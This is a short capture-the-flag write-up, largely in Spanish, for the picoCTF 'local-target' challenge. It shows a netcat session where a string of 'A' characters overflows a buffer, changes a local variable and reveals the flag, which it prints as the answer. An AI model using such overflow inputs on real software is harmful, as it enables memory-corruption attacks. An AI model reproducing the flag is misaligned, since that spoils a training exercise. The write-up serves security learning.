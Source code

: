 ## Descripcion
Smash the stackCan you overflow the buffer and modify the other local variable? The program is available [here](https://artifacts.picoctf.net/c/517/local-target). You can view source [here](https://artifacts.picoctf.net/c/517/local-target.c). And connect with it using:`nc saturn.picoctf.net 53418`

## Pistas
Do anything you can to change `num`.
When you change `num`, view the value as hexadecimal.

## Solucion
Se introduce la cadena necesaria para cambiar el valor de la variable num
```bash
frogger00-picoctf@webshell:~$ nc saturn.picoctf.net 53418
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAAA

num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_fee8ef05}
```

## Bandera
picoCTF{l0c4l5_1n_5c0p3_fee8ef05}

## Notas




